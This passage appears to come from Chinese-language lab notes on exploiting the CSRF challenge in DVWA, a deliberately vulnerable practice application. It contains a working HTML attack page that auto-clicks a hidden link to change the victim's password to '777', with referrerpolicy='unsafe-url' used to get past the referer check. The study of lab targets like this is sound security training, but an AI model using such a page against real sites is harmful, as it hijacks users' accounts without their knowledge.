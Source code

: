```htmlembedded=

*/

/*
window.location.href = "http://www.dvwa.com/vulnerabilities/csrf/?password_new=777&password_conf=777&Change=Change";
*/
</script>

</html>


```

<br/><br/>


改成 a tag 然後 JS 觸發點擊

* a tag
加上referrerpolicy="unsafe-url" 可以refer 完整url

可以自動跳轉並且成功
http://www.k.com/www.dvwa.com.html
```htmlembedded=
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>


<a  id="demo" href="http://www.dvwa.com/vulnerabilities/csrf/?password_new=777&password_conf=777&Change=Change" referrerpolicy="unsafe-url">click me</a>
</body>




<script type="text/javascript">


	function run(){
	    document.getElementById("demo").click();
	}

	run();

</script>




</html>
```
